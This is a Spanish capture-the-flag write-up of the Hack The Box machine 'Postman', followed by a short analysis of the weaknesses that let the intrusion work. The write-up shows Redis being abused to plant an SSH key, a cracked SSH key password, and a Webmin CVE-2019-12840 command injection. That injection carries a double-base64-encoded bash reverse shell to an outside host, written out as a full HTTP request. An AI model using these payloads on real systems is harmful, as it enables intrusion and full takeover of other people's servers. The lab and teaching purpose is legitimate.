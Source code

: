 # Postman ![Avatar](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b_thumb.png)
## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
## Enum
### Webmin
Este podría
### Redis
El servicio redis nos permite interaccionar con el sin ningun tipo de autenticación, abusaremos de esto para subir nuestra propia clave y obtener sesion en el servidor como redis , para ello ejecutaremos lo siguiente
```
:~/Current/HTB$ (echo -e "\n\n"; cat key_rsa.pub ; echo -e "\n\n") > key.txt
:~/Current/HTB$ cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
OK
:~/Current/HTB$ redis-cli -h 10.10.10.160
10.10.10.160:6379> GET ssh_key
"\n\n\nssh-rsa AAAAB3NzaC.............\n\n\n\n"
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Tras esto podemos logearnos en el sistema sin ningún problema como redis

## Privesc 
### Matt
Encontramos el siguiente archivo de backup
```
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```
Copiamos la clave y la traemos a nuestra máquina para poder crackear su clave, usamos ssh2john y crackeamos el hash, con ello veremos que la clave es la siguiente
```
computer2008     (second_key)
```
Con esta clave nos podremos logear como Matt, pero no desde el ssh directamente si no mediante su
### Root

Tras un rato buscand omaneras de hacer privesc recorde que habia un servicio webmin que no habiamos utilizado para nada, probamos las credenciales de Matt en el servicio y accedimos sin problema, busquemos alguna forma de escalar privilegios desde aquí, ya que el webmin ha sido invocado como root
```
Matt@Postman:/etc/webmin$ ps aux | grep webmin
root        695  0.0  3.2  95320 29536 ?        Ss   Sep06   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```
Desde el escaneo del principio sabemos la version de webmin, 1.910 esta version es vulnerable a el CVE 2019-12840, abusemos del mismo para obtener RCE como root, para ello podriamos usar alguno de los exploits disponibles para el CVE aunque en este caso vamos a hacerlo a mano para evitar los problemas con el certificado ssl de la página , para ello hacemos lo siguiente
1* Abrimos BurpSuite y mediante el proxy interceptamos una request a /package-updates/update.cgi
2* Para obtener la request que necesitamos vamos a System -> Software Packcage Mangamente -> Update -> Update selecteds
3* Añadir el siguiente payload al data en la request  
```
u=acl%2Fapt&u=$(COMANDO A EJECUTAR)
```
Con esto podemos conseguir obtener una reverse shell, si pasamos los filtros ya que "/" , "," y " ", hacen que el sistema trunque el input, para solucionar este probelma recurriremos a dos truquitos, la variable IFS y encodear el payload en base64, procedamos

* 1. Escribimos la reverse shell en plano
```
bash -i >& /dev/tcp/10.14.10.23/4444 0>&1
```
* 2. La encodeamos en base 64, en mi caso quedaba un + en el payload lo cual da problemas con el URL encoding asi que la doble encodee en base64:
```
echo "bash -i >& /dev/tcp/10.14.10.23/4444 0>&1" | base64 | base64
```
* 3. Construimos la secuencia de comandos para decodificar el payload y ejecutarlo en la máquina remota
```
echo WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK | base64 -d | base64 -d | bash
```
* 4. Eliminamos los espacios no necesarios para la ejecución del comando
```
echo WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64 -d|base64 -d|bash
```
* 5. Añadimos IFS donde aún tengamos espacios en blanco
```
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash```
```
Con esto ya tendriamos nuestra request completa
```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Progressive-URL: https://10.10.10.160:10000/package-updates/update.cgi
X-Requested-From: package-updates
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Length: 134
Origin: https://10.10.10.160:10000
Connection: close
Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1
Cookie: redirect=1; testing=1; sid=5f376f95923e8a275a21fe3ef86fc671

u=acl%2Fapt&u=$(echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash)
```
La ponemos en nuestro repeater , abrimos el listener en local y lanzamos la request obteniendo asi una reverse shell como root

# Analisís de la intrusion
### Unrestricted redis acces
Podemos acceder al servicio redis sin ningun tipo de autentificación subiendo nuestra clave ssh a sus claves aturoizadas 
### Sensible data exposure
La clave SSH de Matt es accesible para el usuario de Redis
### Bad password policie
La clave de Matt tanto para la clave SSH como para el usuario esta dentro de rockyou.txt, esto nos permitio crackear la cclave obtenida y obtener acceso al sistema como Matt
### Password Reutilization
La clave del usuario Matt es la misma que se usó en el servicio webmin,esto nos permitio comprometer el servicio
### Webmin as root
Webmin fue lanzado como root, esto hace que si se consigue un RCE la máquina quede totalmente comprometida
### CVE 2019-12840
La versión de Webmin utilizada es vulnerable a dicho CVE que permite obtener RCE con unas credenciales validas en el servicio webmin, lo que nos permitio comprometer de manera total el sistema
